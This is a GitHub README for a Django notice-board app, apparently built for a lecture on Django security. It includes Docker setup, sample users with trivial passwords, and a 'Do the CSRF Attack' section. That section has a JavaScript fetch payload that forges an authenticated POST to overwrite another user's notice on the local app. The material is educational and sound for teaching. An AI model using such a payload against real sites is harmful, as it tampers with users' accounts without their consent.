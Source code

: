 # board

## Table of Contents

1. [Overview](#overview)
    - [Demonstration of the application](#demonstration-of-the-application)
2. [Installation](#installation)
    - [Prerequisites](#prerequisites)
    - [Cloning the Repository](#cloning-the-repository)
    - [Run the application](#run-the-application)
    - [Sample users](#sample-users)
    - [Stop the application](#stop-the-application)
3. [Do the CSRF Attack](#do-the-csrf-attack)
    - [Demonstration of the CSRF Attack](#demonstration-of-the-csrf-attack)
4. [Features](#features)
    - [Functional Requirements](#functional-requeriments)
    - [Non-functional Requirements](#non-functional-requirements)
5. [What have I learned?](#what-have-i-learned)

## Overview

board is a minimalist notice board built using [HTML](https://developer.mozilla.org/en-US/docs/Web/HTML), [Tailwind CSS](https://tailwindcss.com/), [Django](https://www.djangoproject.com/), [MySQL](https://www.mysql.com/), [phpMyAdmin](https://www.phpmyadmin.net/) and [Docker](https://www.docker.com/). 

This web application was used to give a lecture on the operation of Django and its security mechanisms. This lecture covers topics such as User Authentication, URL protection, Middleware, CORS and CSRF Attack/Defense strategies.

### Demonstration of the application

<video src="https://github.com/antonioalanxs/board/assets/79718376/a3d8ddd6-486b-4007-bb52-db1aba3a1e6f" alt="Application Video Demonstration"></video>

## Installation

### Prerequisites

Have [Docker](https://docs.docker.com/engine/install) installed on your machine.

### Cloning the Repository

```shell
git clone https://github.com/antonioalanxs/board
cd board
```

### Run the application

```shell
cd docker
docker compose up --build
```

The application is now running on your [localhost:8000](http://localhost:8000). Additionally, phpMyAdmin is running on your [localhost:8080](http://localhost:8080) with credentials `user` and `password`.

### Sample users

| User               | Username      | Password             |
| :----------------: | :-----------: | :------------------: |
| **@antoniomanuel**         | antoniomanuel         | `a`        |
| **@teresavrod**          | teresavrod          | `a`             |
| **@antonioalanxs** | antonioalanxs | `a` |

### Stop the application

```shell
docker compose down
```

The application was turned off.

## Do the CSRF Attack

1.  [Run the application](#run-the-application) and log in with an [user](#sample-users). This will cause the browser to save its `sessionid`.
  
2.  Select the `slug` of the user's notice that you want to edit attacking it. You can do this using [phpMyAdmin](http://localhost:8080) or by looking at the notice URL.

3.  Change the current working directory to `attack-server` and Run Attack Server on [localhost:5500](http://localhost:5500) (e.g., `python -m http.server 5500`).

4.  Go to [localhost:5500](http://localhost:5500) and the Attack Server will execute the following code:

    ```javascript
    const slug = "3e2e62cf-35f2-4d8e-9244-8649a4748c52" // Example user's notice slug
    
    fetch(`http://localhost:8000/update/${slug}`, {
        method: "POST",
        credentials: "include", // sessionid Cookie stored in the browser previously when logging in the application
        headers: {
            "Content-Type": "application/x-www-form-urlencoded",
        },
        body: "title=attacker&content=attacker"
    })
        .then(res => res.text())
        .then(text => console.log(text))
        .catch(err => console.error(err));
    ```

### Demonstration of the CSRF Attack

<video src="https://github.com/antonioalanxs/board/assets/79718376/7194f1a5-bd2e-4bb7-8920-38da6725c05f" alt="Attack Video Demonstration"></video>

## Features

### Functional Requeriments

- **Registration**: New users can easily register by providing essential information.
  
- **Login**: Users can log in securely to access their shopping list.
  
- **Skip Login (Auto-Login)**: For returning users, the application provides a convenient option to skip the login process.
  
- **Logout**: Users can log out at any time to secure their account and data.

- **Read a Notice**: Users can view the contents of a notice in a readable format, enabling them to stay informed about important information or updates shared within the application.

- **Publish a Notice**: Users can write a notice in a very simple manner.
  
- **Delete a Notice**: Users can remove notices with a single click.

- **Edit a Notice**: Users have the flexibility to modify their notices, allowing them to update information or make corrections as needed.

### Non-functional Requirements

- **Minimalistic and User-Friendly Interface:** The application boasts a clean and intuitive design, providing an exceptional user experience (UX).

- **Responsive Design**: Ensured optimal viewing and interaction across various devices, enhancing accessibility.

- **Legal Compliance:** The application strictly follows the laws and regulations of each country in which it is used.

- **Scalability:** Built to handle a growing user base and data efficiently.

- **Availability:** Ensures the application is available and accessible to users when needed.

- **Data Durability with SQL Database:** Guarantees the persistence and reliability of user data by leveraging a SQL database, ensuring robust storage and retrieval capabilities.

## What have I learned?

- **Better understanding and management of Docker**: Gained proficiency in handling Docker containers, enhancing the distribution of applications.

- **Usage of phpMyAdmin**: Acquired skills in utilizing phpMyAdmin for MySQL database management, facilitating data visualization and administration.

- **Seeder usage for database initialization**: Learned to use seeders to populate and initialize the database with test data, aiding in development and testing phases.

- **Improved understanding of Django architecture**: Enhanced comprehension of Django's framework architecture for more effective and scalable web application development.

- **Middleware utilization**: Learned how to use middlewares in the context of Django, allowing customization and extension of web application's behavior.

- **Understanding CORS (Cross-Origin Resource Sharing)**: Acquired knowledge about how CORS works and its significance in web development. Learned how to handle and configure CORS to enable secure communication between different origins in the context of web applications.

- **CSRF Attack and Defense Strategies**: Explored the concept of Cross-Site Request Forgery (CSRF) attacks and gained insights into both launching and defending against such attacks. Developed strategies to implement CSRF protection measures in web applications, ensuring the security of user data and interactions.

- **Enhanced communication skills**: Strengthened communication abilities through giving the lecture, enhancing my ability to communicate ideas effectively.
